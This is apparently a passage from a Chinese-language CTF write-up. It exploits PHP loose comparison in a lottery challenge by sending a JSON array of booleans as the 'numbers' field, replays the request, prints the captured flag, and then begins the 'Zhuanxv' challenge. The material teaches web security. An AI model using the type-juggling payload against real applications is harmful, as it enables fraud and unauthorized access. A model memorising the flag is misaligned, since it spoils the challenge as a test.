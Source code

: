 ```php
}
```

`$numbers` 来自用户输入：

```json
{"action":"buy","numbers":"1111111"}
```

与 `$win_numbers` 进行比较，未进行数据类型检验与过滤，由于 for 循环内进行的是 `==` PHP 弱类型比较，我们可以构造出如下 payload:

```json
{"action":"buy","numbers":[true, true, true, true, true, true, true]}
```

进行重放 获取足够的 $ 购买 flag 即可：

![](/assets/images/move/20190925220150.png)

获取到 flag 如下:

```json
{"status":"ok","msg":"Here is your flag: cyberpeace{d1614926fe8edc22fc054ef0c7562504}","money":410310}
```

## 0x0D Zhuanxv

XCTF 4th-SCTF-2018 你只是在扫描目标端口的时候发现了一个开放的web服务

![](/assets/images/move/20191002095046.png)

在 Github 上搜索到[相关项目](https://github.com/Lazyboxx/zhuanxvapplication)，后台路由为 `/zhuanxvlogin`：
